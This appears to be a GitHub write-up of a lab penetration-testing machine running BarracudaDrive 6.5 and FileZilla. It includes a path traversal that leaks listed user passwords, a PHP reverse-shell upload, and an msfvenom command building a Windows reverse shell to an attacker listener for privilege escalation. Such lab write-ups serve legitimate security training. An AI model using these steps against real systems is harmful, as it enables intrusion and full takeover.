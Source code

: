 #Pwned! 
```IP
192.168.150.127
```
# Enumeration

## FTP 30021
FileZilla ftpd 0.9.41 beta
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211092557.png?raw=true)

## HTTP 8000
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211090801.png?raw=true)
BarracudaDrive 6.5
PE https://www.exploit-db.com/exploits/48789
fuzzing different extensions to upload a file
```
ffuf -request files/ext.req -request-proto http -w /usr/share/SecLists-master/Fuzzing/extensions-Bo0oM.txt
```
none works

## HTTP 33033
we can update passwords
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211094745.png?raw=true)
and we can path traversal to other users and see their passwords
```
4qpdR87QYjRbog
xuk1EuP3N/rCpA
AJqKXnKVwhcSkg
WgsjOZwtOyCRSg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211095528.png?raw=true)
# Exploitation

it is possible to navigate through directories in HTTP 8000. I got stuck a lot of time because I couldnt click on C, so it didn't seem like a directory....
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105130.png?raw=true)
Once a revshell has been uploaded to the latter directory, you can access it via  
```
http://192.168.150.127:45332/shell2.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105019.png?raw=true)
and type the local flag
# PrivEsc

## Manual
lets try the PE vulnerability found in BarracudaDrive 6.5
https://www.exploit-db.com/exploits/48789

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105508.png?raw=true)
create a malicious revshell. substitute bd.exe and restart the computer
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110042.png?raw=true)
we are nt authority system
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110129.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

